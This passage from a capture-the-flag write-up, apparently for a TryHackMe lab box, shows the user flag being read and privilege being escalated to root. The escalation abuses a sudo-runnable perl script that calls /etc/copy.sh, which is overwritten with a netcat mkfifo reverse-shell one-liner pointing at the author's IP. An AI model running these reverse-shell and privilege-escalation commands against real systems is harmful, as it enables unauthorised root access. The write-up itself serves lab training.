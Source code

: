 Amoung all the files, there's one particular file that seeks our attention the most, and that is **user.txt**.

That's our flag and we have the access to read the file, therefore, let's retreive it by running the following command:

`$ cat user.txt`

And you got your first flag:

**`THM{63e5bce9271952aad1113b6f1ac28a07}`**

## Priviledge Escalation

Now that we got our user flag, all that's left is to get root flag and for that we need to excalate our access to root's.

Now, let's check what commands can this user run with sudo priviledges.

```
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

As you can see, this user can run any perl command as sudo, other than this, there's pearl script in the itguy's home directory which can be run as sudo and this user has access to that as well.

If we can look into the code if this script, we can see it is trying to run another script

```
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

We don't have the access to modify this script, then let's look into the other script try to find out what it does.

```
www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

It seems this script trying to initiate a reverse shell, what we can do here is we modify this script and add our system's ip in it, for that run the following command:

```
www-data@THM-Chal:/$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.93.55 8877 >/tmp/f" > /etc/copy.sh
```

Now, if we run the pearl script as sudo, it will then run the copy.sh script as sudo as well and this will give us a root shell in return.
